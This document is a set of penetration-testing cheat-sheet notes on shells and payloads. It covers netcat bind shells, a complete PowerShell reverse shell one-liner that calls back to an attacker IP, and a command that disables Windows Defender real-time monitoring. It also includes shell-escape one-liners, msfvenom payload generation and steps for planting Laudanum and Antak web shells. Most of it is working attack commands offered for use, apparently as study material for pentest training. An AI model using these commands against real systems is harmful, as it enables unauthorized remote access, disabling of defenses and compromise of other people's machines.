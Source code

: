 # SHELL & PAYLOADS

## Shell Basics

###### Bind Shell

- With a bind shell, the target system has a listener started and awaits a connection from a pentester's system (attack box).

```bash
# on target
nc -lvnp <Port>

# Pwnbox
nc -nv <Target-IP> <Port>


# Bind shell ( on target )
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <IP> <Port> > /tmp/f

# Bind shell pwnbox
nc -nv <Target-IP> <Port>
```

###### Reverse Shells
- With a reverse shell, the attack box will have a listener running, and the target will need to initiate the connection.

```bash
# Attack box
sudo nc -lvnp <443| Port>

# target windows cmd 
    # run
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<Attack-IP>',<Port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    # disable AV if problem
    Set-MpPreference -DisableRealtimeMonitoring $true
```

**Ressource**

[Reverse shell Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Payloads 

###### Automating Payloads & Delivery with Metasploit

###### Crafting Payloads with MSFvenom
```bash
# 1 - create payload 
msfvenom -p <Payload-Path> LHOST=<My-IP> LPORT=<Port> -f <Payload-Format> > <output-File.Format>

# 2 - send to target 

# 3 - Execute on Attack machine 
sudo nc -lvnp <Port>

# 4 - execute on target
```

**Ressources**

[Nishang Project](https://github.com/samratashok/nishang/blob/master/)

## Windows Shells

##### Infiltrating Windows

###### Payload Types to Consider

- DLLs

- Batch

- VBS

- MSI

- Powershell

###### Payload Generation

- [MSFVenom + Msfconsole](https://github.com/rapid7/metasploit-framework)

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

- [Mythic C2 Framework](https://github.com/its-a-feature/Mythic)

- [Nishang](https://github.com/samratashok/nishang)

- [Darkamour](https://github.com/bats3c/darkarmour)

###### Payload Transfer and Execution

- [Impacket](https://github.com/fortra/impacket) :  psexec, smbclient, wmi, Kerberos, and the ability to stand up an SMB server....

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md)

- Remote execution via MSF

- SMB

- FTP, TFTP, HTTP/S and others

`MS17-010 (EternalBlue) has been known to affect hosts ranging from Windows 2008 to Server 2016`


## NIX Shells
##### Infiltrating Unix/Linux


When considering how we will establish a shell session on a Unix/Linux system, we will benefit from considering the following:  

-  What distribution of Linux is the system running?

- What shell & programming languages exist on the system?

- What function is the system serving for the network environment it is on?

- What application is the system hosting?

- Are there any known vulnerabilities?

**Ressources**

- [WSL to run payloads in order to bypass windows antivirus](https://www.bleepingcomputer.com/news/security/new-malware-uses-windows-subsystem-for-linux-for-stealthy-attacks/)

##### Spawning Interactive Shells

```bash
# shell interactive mode
/bin/sh -i

# Perl to Shell
perl —e 'exec "/bin/sh";' | perl: exec "/bin/sh";

# Ruby to shell
ruby: exec "/bin/sh"

# Lua to Shell
lua: os.execute('/bin/sh')

# AWK to shell
awk 'BEGIN {system("/bin/sh")}'

# Find to shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# vim to shell
vim -c ':!/bin/sh'
# vim escape 
vim
:set shell=/bin/sh
:shell

# Execution Permissions Considerations
ls -la <path/to/fileorbinary>
sudo -l
```

## Web Shells

##### Laudanum, One Webshell to Rule Them All

- Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more.
- in Parrot os : `/usr/share/webshells/laudanum`

- Usage 

```bash
# 1 - Add target to /etc/hosts

# 2 - move copy for modification
cp </usr/share/webshells/laudanum/aspx/shell.aspx| linnk-to-laudanum-webshell> </home/tester/demo.aspx | new-file-name>

# 3 - put my ip in the file
```

**Ressources**
[Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)

##### Antak Webshell

- Antak is a web shell built-in ASP.Net included within the Nishang project. Nishang is an Offensive PowerShell toolset that can provide options for any portion of your pentest.
    Antak on Parrot : `ls /usr/share/nishang/Antak-WebShell`


```bash
# 1 - Add target to /etc/hosts

# 2 - move copy for modification
cp </usr/share/nishang/Antak-WebShell/antak.aspx | linnk-to-antak-webshell> </home/administrator/Upload.aspx | new-file-name>

# 3 - modify the file for useclear
# ligne 14 : set user and  password
```

## PHP Web Shells
**Ressources**
[WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)
## Ressources

- [IPPSEC website to learn concepts](https://ippsec.rocks/?#)

